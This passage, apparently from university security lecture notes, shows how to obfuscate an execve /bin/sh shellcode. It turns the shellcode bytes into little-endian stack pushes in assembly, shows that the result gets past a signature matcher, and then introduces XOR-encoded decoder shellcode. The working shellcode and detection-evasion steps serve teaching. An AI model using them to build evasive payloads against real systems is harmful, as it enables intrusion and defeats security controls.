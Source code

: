 As you can see, if you look closely, that all the bytes are there
encoded into little endian.

Now, to use this in another version of the shell code, we will want push
in reverse order, and we can use the `tac` command (`cat` backwards) to
print this in reverse:

``` {.example}
user@si485H-base:demo$ printf $(./hexify.sh smallest_shell) | ./le-fourbytes.py - | tac
0x90909080
0xcd0bb0e3
0x8969622f
0x2f686873
0x2f6e6850
0xe1f7c931
```

And, then we can dump this into some shell code:

``` {.asm}
;;;push_shell.asm
section .text
    global _start
_start: 
    push 0x90909080
    push 0xcd0bb0e3
    push 0x8969622f
    push 0x2f686873
    push 0x2f6e6850
    push 0xe1f7c931
    call esp
```

And now, we pass the simple sigchecks from before because we split up
the `int 0x80` instruction bytes.

``` {.example}
user@si485H-base:demo$ ./execve_sigmatcher $(printf `./hexify.sh push_shell`)
$
```

But, surprisingly, we still fail the more naive checking for "sh"

``` {.example}
user@si485H-base:demo$ ./simple_sigmatcher $(printf `./hexify.sh push_shell`)
No way Jose!
```

We need to do a bit more work.

### Decoder Obfuscated Shell Code

The next step in obfuscation is to actually encode the bytes of the
shell code in some way, push them onto the stack, and then decode them
at run time. We will use a very basic encoding scheme that will `xor`
the bytes with a key. It's important that the key does not exist in the
shell code, otherwise we may introduce a null byte.
